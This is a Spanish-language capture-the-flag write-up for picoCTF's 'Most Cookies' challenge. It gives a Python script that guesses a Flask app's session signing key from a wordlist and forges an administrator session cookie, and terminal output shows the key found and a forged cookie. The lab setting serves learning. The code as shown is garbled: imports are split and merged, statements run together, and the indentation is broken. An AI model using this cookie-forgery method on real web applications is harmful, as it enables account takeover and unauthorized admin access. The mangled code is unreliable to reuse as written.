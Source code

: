 ## Objetivo
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/e99686c2e3e6cdd9e355f1d10c9d80d6/server.py) [http://mercury.picoctf.net:53700/](http://mercury.picoctf.net:53700/)
## Solución

```
Para este reto se usara un script en python para poder crackear y saber cual es la cookie correcta:
```

```
import flask 
import hashlib 

from sys import argv 
from flask.json.tag 
import TaggedJSONSerializer from itsdangerous import URLSafeTimedSerializer, TimestampSigner, BadSignature 

cookie = argv[1] cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"] 

real_secret = '' 

for secret in cookie_names: 
	try: 
	serializer = URLSafeTimedSerializer( 
		secret_key=secret, 
		salt='cookie-session', 
		serializer=TaggedJSONSerializer(), 
		signer=TimestampSigner, 
		signer_kwargs={ 
			'key_derivation' : 'hmac', 
			'digest_method' : hashlib.sha1 
		}).loads(cookie) 
	except BadSignature: 
		continue 
		
	print(f'Secret key: {secret}') 
	real_secret = secret 
	
session = {'very_auth' : 'admin'} 
	
print(URLSafeTimedSerializer( 
	secret_key=real_secret, 
	salt='cookie-session',
	serializer=TaggedJSONSerializer(), 
	signer=TimestampSigner, 
	signer_kwargs={ 
		'key_derivation' : 'hmac', 
		'digest_method' : hashlib.sha1 
	}
 ).dumps(session))
```

```
PicoCTF % python3 cookie.py eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZvyWwQ.2Z-B50romCK6HtwMl2ODXB2vWzw
Secret key: peanut butter
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZvyW0Q.jkNPg-VYwj-VPwqTP_7l0O-DL7c
```

![Most Cookies](/imagenes/MostCookies.png)
## Notas adicionales
## Referencias
[Most Cookies](https://ctftime.org/writeup/26978)